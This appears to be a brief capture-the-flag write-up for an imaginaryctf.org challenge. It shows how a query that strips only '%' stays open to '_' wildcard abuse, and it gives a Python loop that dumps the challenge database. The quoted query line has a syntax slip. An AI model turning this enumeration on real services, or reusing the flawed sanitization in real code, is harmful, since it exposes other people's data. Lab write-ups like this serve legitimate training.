 ### Likeness-03-07-2023
Looking at the source, we can see the SQL query string on line 24. On this line we can see that it sanitizes the "%" character, and uses parameterized statements:

```python
res = cur.execute("SELECT * from authors where last LIKE ?" (request.args['lastname'].replace("%", ""),))
```
 In parameterized statements, "_" can be used for any single character and "%" can be zero or more of any characters. We can use a simple python script to try every possible length of last name, exposing the entire database:

 ```python
import requests
import time

url = "http://puzzler7.imaginaryctf.org:11000/"

for i in range(100):
    r = requests.get(url, params = {"lastname" : i * "_"})
    print(f"====================")
    print(f"{i}: {r.text}")
    time.sleep(0.2)
 ```

This reveals the flag
